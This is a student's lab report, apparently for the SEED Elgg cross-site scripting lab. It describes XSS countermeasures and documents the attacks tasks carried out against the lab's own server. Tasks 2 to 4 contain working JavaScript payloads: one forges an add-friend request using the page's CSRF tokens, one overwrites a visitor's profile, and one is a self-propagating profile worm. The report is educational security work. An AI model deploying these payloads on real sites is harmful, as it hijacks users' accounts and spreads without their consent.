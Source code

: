 # Background
## What is XSS attack?
![[Drawing 2023-11-20 15.57.56.excalidraw|650]]
## Countermeasures
1. Sanitize(Filter): The goal for this countermeasure is to remove the code from user's inputs. Usually, the malicious code are embedded with a script tag. Therefore, by deleting this tag, the malicious code can be treated as normal text. 
2. Encoding: Similar to the first method, we can use the ASCII characters to treat the tag brackets '<' and '>' as characters by encoding them. It can also make the malicious code be text. 
3. Content Security Policy: This is a method to control the script usage of the files. For example, we can only allow the website use the same source script. We can also restrict the inline script with nonces to prevent users from using unknown source scripts. 
# Task 1
## Results and Screenshots
Input: 
`<script>alert('xss')</script>` 
Output: 
![[Pasted image 20231120123001.png|650]]
## Explanation
For the website input, it has a "Edit HTML" button which allows the users to input the HTML tags directly without sanitizing them. Therefore, if we put script tags inside the input box, the website would run the code between the script tags. When we click the save button, it will also put everything into the database as the script tag, which means every user who access this page will automatically run the not sanitized code. 
# Task 2
## Results and Screenshots
Captured: 
`http://www.seed-server.com/action/friends/add? friend=59&__elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw&_ _elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw`
Script: 
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token;  
var sendurl= "http://www.seed-server.com/action/friends/add? friend=59"+ts+token+ts+token; 
Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); 
Ajax.send(); 
}
</script>
```
Alice's account automatically sent the request: (When refresh, the button automatically changed from "Add Friend" to "Remove Friend")
![[Pasted image 20231120125238.png|650]]
## Questions
1. Question 1: Explain the purpose of (1) and (2), why are they needed? 
Answer: The website contains countermeasures regarding the CSRF attack. The token and the timestamp are used as a verification of user's status. Therefore, the two lines are used to directly extract the CSRF token and timestamp to the variable to use them easily. 
2.  If the Elgg application only provides the Rich Text Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode (“Edit HTML”), can you still launch a successful attack?
Answer: Yes. Usually, the Rich Text Editor contains safety measures to clear the malicious input. They usually intend to delete HTML tags inside the user input. However, we can directly modify the content in the input tag to avoid the additional verification. 
# Task 3
## Results and Screenshots
Input: 
```
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp
__elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="&description=<p>samy is my
hero</p>"+ts+token+userName+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
When Alice is accessing Samy's web page, we can see the request is automatically sent.![[Pasted image 20231120132828.png|650]]Alice's profile after visit Samy's Profile: 
![[Pasted image 20231120132859.png|650]]
## Questions
3. Why do we need Line (1)? If we do not add this check, can the attack be successful? How come we do not have such a check in the add-friend attack (add_friend.js)? 
Answer: If we do not add this check, when Samy is checking his own page, the malicious code may copy the text "Samy is my hero" to his own profile, which will overwrite the malicious content. For add_friend.js, the malicious code does not do any overwrite, it only send the get request to the server to add Samy as friend. When Samy access the server, the server would not accept a request that add himself as a friend. Therefore, adding this if statement or not will not influence the result of the attack. 
# Task 4
## Results and Screenshots
Input: 
```
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
alert(jsCode);
window.onload = function(){
userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; 
var content="&description="+wormCode+ts+token+userName+guid; 
var samyGuid=59; 
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid) { 
var Ajax=null; 
Ajax=new XMLHttpRequest(); 
Ajax.open("POST", sendurl, true); 
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
Ajax.send(content); } 
}
```
Samy's Profile: (After put the worm)
![[Pasted image 20231120154213.png]]
Alice Profile (Before put the worm):
![[Pasted image 20231120135306.png]]
Alice Profile (After visit Samy's Profile):
![[Pasted image 20231120154139.png]]
Boby Profile (Before visit Alice's Profile):
![[Pasted image 20231120154426.png]]
Boby Profile (After visit Alice's Profile):
![[Pasted image 20231120154514.png]]
## Explanation
The Self-Propagating XSS worm uses DOM's API to access the malicious code on the tree, which is basically itself. In this case, the code use headerTag variable references the script header, jsCode references the code itself, and the tailTag variable to reconstruct the same content. Then, it extends the previous task's content to replicate itself to anyone who visits this profile. 

# Task 5
## Results and Screenshots
![[Pasted image 20231120155203.png|650]]
![[Pasted image 20231120155241.png|650]]
![[Pasted image 20231120155305.png|650]]
## Questions
4. When visiting these website